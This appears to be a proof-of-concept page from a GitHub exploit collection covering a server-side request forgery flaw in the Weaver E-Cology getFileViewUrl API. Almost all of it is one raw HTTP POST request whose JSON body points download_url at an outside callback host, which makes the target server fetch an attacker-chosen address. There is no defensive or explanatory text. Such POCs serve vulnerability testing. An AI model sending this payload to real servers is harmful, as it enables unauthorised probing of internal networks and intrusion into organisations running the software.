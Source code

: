 # ecology_getFileViewUrl_ssrf

from: https://github.com/wy876/POC/blob/main/%E6%B3%9B%E5%BE%AEE-Cology%E6%8E%A5%E5%8F%A3getFileViewUrl%E5%AD%98%E5%9C%A8SSRF%E6%BC%8F%E6%B4%9E.md

```
POST /api/doc/mobile/fileview/getFileViewUrl HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Upgrade-Insecure-Requests: 1
 
{
    "file_id": "1000",
    "file_name": "c",
    "download_url":"http://euixlkewfg.dgrh3.cn"
}
```
